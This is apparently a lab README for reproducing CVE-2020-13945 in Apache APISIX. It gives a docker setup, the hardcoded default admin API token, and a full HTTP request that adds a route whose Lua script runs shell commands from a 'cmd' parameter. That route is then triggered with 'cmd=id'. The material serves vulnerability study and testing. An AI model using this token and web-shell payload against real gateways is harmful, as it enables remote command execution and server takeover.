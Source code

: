 # Apache APISIX's Admin API default access token vulnerability (CVE-2020-13945)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway. Apache APISIX has a default built-in API token `edd1c9f034335f136f87ad84b625c8f1` that can be used to access all the admin API, which leads to the remote LUA code execution through the `script` parameter added in the 2.x version.

References:

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## Vulnerability Environment

Execute following command to start a Apache APISIX server 2.11.0 (this vulnerability hasn't been fixed until newest version, might be not considered fixing by vendor):

```
docker-compose up -d
```

After the server is started, you can see a default 404 page at `http://your-ip:9080`.

## Vulnerability Reproduce

Add a new evil router rule to the APISIX through admin api with default token:

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

Then, use this evil router to execute arbitrary commands:

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
